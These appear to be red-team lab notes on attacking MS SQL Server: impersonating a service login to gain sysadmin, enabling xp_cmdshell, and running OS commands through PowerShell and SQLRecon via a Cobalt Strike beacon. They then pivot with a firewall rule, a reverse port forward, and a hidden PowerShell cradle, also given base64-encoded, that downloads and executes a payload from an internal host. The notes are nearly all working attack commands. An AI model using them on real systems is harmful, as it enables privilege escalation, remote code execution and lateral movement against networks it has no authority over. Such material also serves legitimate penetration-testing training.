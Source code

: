 #### Check permissions

```sql

SELECT SYSTEM_USER;
DEV\bfarmer

SELECT IS_SRVROLEMEMBER('sysadmin');
0
/* execute as */
EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
DEV\mssql_svc

EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
1
```

#### Command Execution

> The xp_cmdshell procedure can be used to execute shell commands on the SQL server if you have sysadmin privileges

```bash
beacon> powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults
```

The reason this works with Invoke-SQLOSCmd is because it will automatically attempt to enable xp_cmdshell if it's not already, execute the given command, and then disable it again

```sql
/* check if is enabled */
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
/* enable it and recheck it */
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

```bash
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig
```

```bash
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
beacon> rportfwd 8080 127.0.0.1 80
beacon> portscan 10.10.122.25 445
powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"
# or
powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=
beacon> link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
```
